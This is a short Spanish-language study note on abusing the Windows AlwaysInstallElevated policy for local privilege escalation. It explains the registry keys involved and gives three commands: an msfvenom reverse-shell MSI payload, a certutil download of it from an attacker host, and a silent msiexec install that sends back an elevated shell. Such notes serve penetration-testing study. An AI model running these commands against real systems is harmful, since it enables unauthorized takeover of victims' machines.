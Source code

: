 -----
- Tags: #windows #teoria #practica #escalada 
-----

# AlwaysInstallElevated

### El permiso **AlwaysInstallElevated** se refiere a una configuración de políticas de seguridad que afecta a la instalación de paquetes MSI (Windows Installer) y aplicaciones en sistemas operativos Windows. En resumen, permite a usuarios no administradores instalar paquetes MSI con privilegios elevados en Windows.

-------
# Explotación 

### En caso de que estemos con herramientas como [WinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20230808-5e84dec0) analizando vías potenciales de escalar privilegios y veamos que tenemos el permiso **AlwaysInstallElevated** seteado en **1** con **HKLM** y **HKCU** podríamos empezara pensar visitar recursos como [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) para abusar de esto e intentar escalar privilegios. 

#### NOTA: **HKLM** y **HKCU** son abreviaturas que se utilizar para referirse a dos de las principales subclaves en el Registro de Windows (Base de datos jerárquica en la que Windows y las aplicaciones almacenan configuraciones y datos importantes del sistema.)

- #### HKLM: Abreviatura de **HKEY_LOCAL_MACHINE**, esta subclave contiene configuraciones y datos relacionados con la configuración del sistema y el hardware. 
- #### HKCU: Abreviatura de **HKEY_CURRENT_USER**, esta subclave almacena las configuraciones y datos específicos de cada usuario que ha iniciado sesión en el equipo. 

### Una vez verificado que ambos permisos esten seteados en 1, podríamos comenzar con la explotación para escalar privilegios, en este caso lo primero que tendríamos que hacer es crear un payload con la herramienta **msfvenom**. 

```bash
msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST={our_ip} LPORT={our_port} -f msi -o privesc.msi
```
### Una vez creado el payload deberíamos transferirlo a la máquina victima, esto podríamos hacerlo con un simple **certutil.exe**.

```shell
certutil.exe -f --urlcache -split http://{our_ip}/privesc.msi
```
### Una vez transferido el payload, solo quedaría abusar del privilegio **AlwasyInstallElevated** instalando el archivo malicioso **msi** creado.

```shell
msiexec /quiet /qn /i C:\{our}\{path}\privesc.msi
```
### Al momento de la ejecución de este último comando estaríamos instalando el archivo **msi** logrando que de manera privilegiada se ejecute el envío de una consola interactiva privilegiada al puerto y la ip especificada en el proceso de creación del payload con la herramienta **msfvenom**. 

